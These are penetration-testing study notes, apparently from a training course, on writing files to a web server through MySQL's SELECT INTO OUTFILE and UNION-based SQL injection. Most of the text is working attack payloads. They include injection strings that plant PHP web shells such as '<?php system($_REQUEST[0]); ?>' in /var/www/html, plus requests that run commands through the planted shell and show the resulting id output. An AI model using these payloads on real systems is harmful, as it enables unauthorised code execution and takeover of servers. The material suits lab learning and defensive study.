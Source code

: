 ## Write Local Files
#### MySQL - Write Local File

```bash
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:

#### MySQL - Secure File Privileges

  Attacking SQL Databases

```bash
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

# Writing Files via SQL Injection

Modern DBMSes restrict file writing due to its potential for exploitation—especially writing web shells to gain code execution. Still, in some setups, file writes are possible. This section explores how to perform such attacks.
#### Requirements for Writing Files

To write files to the backend server via SQLi on MySQL, the following conditions must be met:

1. The DB user must have the `FILE` privilege.   
2. The global variable `secure_file_priv` should allow writing.
3. The DB must have write access to the target directory.
#### Checking `secure_file_priv`

To verify if the DBMS allows writing files anywhere:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

- Empty value → read/write anywhere
- Specific path → only that directory is writable
- NULL → no read/write allowed
### SELECT INTO OUTFILE

To write file content directly from a SQL query:

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

To verify from the backend:

```bash
cat /tmp/test.txt
```

Output:

```
this is a test
```

This confirms that file creation was successful.
### Writing Files via SQL Injection

Goal: Write a file to `/var/www/html/proof.txt` using UNION-based injection.

```sql
cn' UNION SELECT 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -
```

Verify it by visiting:

```
http://SERVER_IP:PORT/proof.txt
```
### Writing a PHP Web Shell

PHP shell payload:

```php
<?php system($_REQUEST[0]); ?>
```

SQLi payload:

```sql
cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -
```

After upload, access the shell:

```
http://SERVER_IP:PORT/shell.php?0=id
```

Example output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms remote code execution.

Note: File paths may vary; use `LOAD_FILE()` or read config files like `/etc/apache2/apache2.conf` to discover valid web roots if uncertain.
# Tags
> #Exploitation #Service-Exploitation #MySQL 